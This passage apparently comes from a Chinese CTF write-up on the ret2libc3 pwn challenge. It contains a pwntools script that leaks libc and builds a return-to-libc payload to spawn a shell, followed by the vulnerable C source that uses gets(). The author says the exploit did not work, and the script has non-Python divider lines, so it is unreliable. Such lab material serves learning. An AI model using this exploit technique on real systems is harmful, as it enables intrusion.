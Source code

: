 ```python
from pwn import *
io = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc-2.23.so')

---- 适配"远程" ----
io.sendlineafter(b" :", str(elf.symbols["puts"]))
io.recvuntil(b" : ")
-------------------

---- 返回字符串并转化为int,16进制 ----
libcBase = int(io.recvuntil(b"\n", drop=True), 16) - libc.symbols["puts"]
------------------------------------

# debug
success("libcBase -> {:#x}".format(libcBase))

payload = flat(cyclic(60), libcBase + libc.symbols['system'], 0xdeadbeef, next(elf.search(b"sh\x00")))

io.sendlineafter(b" :", payload)

io.interactive()

```

* 虽然这个没有打通，但是基本思想学习了很多















##### Q3 分析

> 无`"/bin/sh"`，也无`system@plt`
>
> 

查看源码，且无PIE，只有NX

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(s);
  return 0;
}
```
